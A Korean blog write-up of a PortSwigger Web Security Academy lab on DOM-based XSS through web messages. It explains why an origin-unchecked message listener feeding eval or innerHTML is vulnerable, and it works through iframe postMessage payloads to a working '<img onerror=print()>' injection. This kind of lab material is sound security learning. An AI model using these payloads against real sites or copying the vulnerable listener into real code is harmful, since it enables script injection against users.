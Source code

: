 ```yaml
---
layout: post
title: "Burp Academy-Dom 관련 취약점: DOM XSS using web messages"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, Dom 관련 취약점, XSS]
toc: true
last_modified_at: 2023-08-07 09:33:00 +0900
---
```


# 개요
- Dom based 타입의 XSS 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages
- Dom 취약점 중에서 웹메세지 설명페이지: https://portswigger.net/web-security/dom-based/controlling-the-web-message-source
- 난이도: PRACTITIONER (보통)


# 문제 
- 이 랩에서 웹 메시지 취약점이 있다. 
- 익스플로잇 서버에서 타겟서버로 웹 메세지를 보내 print함수가 실행되도록 하면 문제가 풀린다. 

```
This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the print() function to be called.
```


# Web Message를 통한 XSS 기본 지식
어떤 웹 사이트에 다음과 같은 코드가 있다고 하자. 

```js
<script>
window.addEventListener('message', function(e) {
  eval(e.data);
});
</script>
```

위 코드는 취약하다. 왜냐하면 공격자가 다음 iframe을 victim에게 실행시키면 Javascript코드 삽입이 가능하기 때문이다. 

```html
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">
```

웹 사이트의 이벤트 리스너가 메세지의 오리진을 체크하지 않고, 공격자의 postMessage() 메서드의 targetOrigin이 *를 지정하고 있으므로, 이벤트 리스너는 페이로드를 수락하고 이를 싱크(eval함수)로 전달하기 때문에 코드 인젝션이 가능해진다. 

# 풀이 
그러면 위의 지식을 가지고 문제를 풀어보자. 

## 웹 메세지 취약점이 있는 곳 찾기 
문제 서버의 / 경로의 HTML페이지를 분석해보면 다음과 같은 코드가 있다. innerHTML함수를 쓰고 있으므로 코드 인젝션이 가능해보인다. 

```js
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```

## exploit코드 만들기 & 테스트 

심플하게 다음 코드를 전달하면 될 것 같다. 

```html
<iframe src="https://0a7800dc031aec818168d4a800e2007f.web-security-academy.net/" onload="this.contentWindow.postMessage('print()','*')">
```

그런데 테스트해보면 동작하지 않는다. 삽입이 대상이 되는 코드는 다음과 같이 생겼다. div 태그이므로 단순히 print()를 삽입해서는 안되고 브라우저가 코드가 동작시키도록 만들어야한다. 

```html
<div id="ads">
</div>
```

이건 어떨까?

```html
<iframe src="https://0a7800dc031aec818168d4a800e2007f.web-security-academy.net/" onload="this.contentWindow.postMessage('<script>print()</script>','*')">
```

동작하지 않는다. 

다음 코드로 했을 때 동작한다. innerHTML은 script태그가 아니라 HTML을 구성하는 태그를 삽입했을 때 동작하는 것으로 보인다. 

```html
<iframe src="https://0a7800dc031aec818168d4a800e2007f.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

![성공](/images/burp-academy-dom-based-xss-1-success.png)